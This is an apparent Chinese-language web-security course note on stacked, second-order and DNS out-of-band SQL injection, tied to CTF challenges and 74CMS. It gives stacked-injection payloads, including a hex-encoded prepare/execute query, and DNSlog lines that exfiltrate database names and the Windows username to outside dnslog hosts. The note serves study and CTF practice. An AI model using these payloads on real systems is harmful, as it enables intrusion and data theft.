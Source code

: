 # WEB攻防-通用漏洞&SQL注入&CTF&二次&堆叠&DNS带外

![day30](/Users/yangluchao/Documents/GitHub/security/image/day30.png)

```
#知识点：
1、数据库堆叠注入
根据数据库类型决定是否支持多条语句执行
2、数据库二次注入
应用功能逻辑涉及上导致的先写入后组合的注入
3、数据库Dnslog注入
解决不回显(反向连接),SQL注入,命令执行,SSRF等
4、黑盒模式分析以上
二次注入：插入后调用显示操作符合
堆叠注入：判断注入后直接调多条执行
DNS注入：在注入上没太大利用价值，其他还行

```

![day30_1](/Users/yangluchao/Documents/GitHub/security/image/day30_1.png)

```
#二次注入-74CMS&网鼎杯2018Unfinish
CTF-[网鼎杯2018]Unfinish-黑盒
CMS-74CMS个人会员中心-黑白盒

#堆叠注入-数据库类型&强网杯2019随便注
根据数据库类型决定是否支持多条语句执行
支持堆叠数据库类型：MYSQL MSSQL Postgresql等
';show databases;
';show tables;
';show columns from `1919810931114514`;
';select flag from `1919810931114514`;
';SeT @a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;

#DNS利用-平台介绍&SQL注入&命令执行等
1.平台
http://www.dnslog.cn
http://admin.dnslog.link
http://ceye.io
2.应用场景：
解决不回显，反向连接，SQL注入，命令执行，SSRF等
SQL注入：
select load_file(concat('\\\\',(select database()),'.7logee.dnslog.cn\\aa'));
and (select load_file(concat('//',(select database()),'.69knl9.dnslog.cn/abc')))
命令执行：
ping %USERNAME%.7logee.dnslog.cn
```

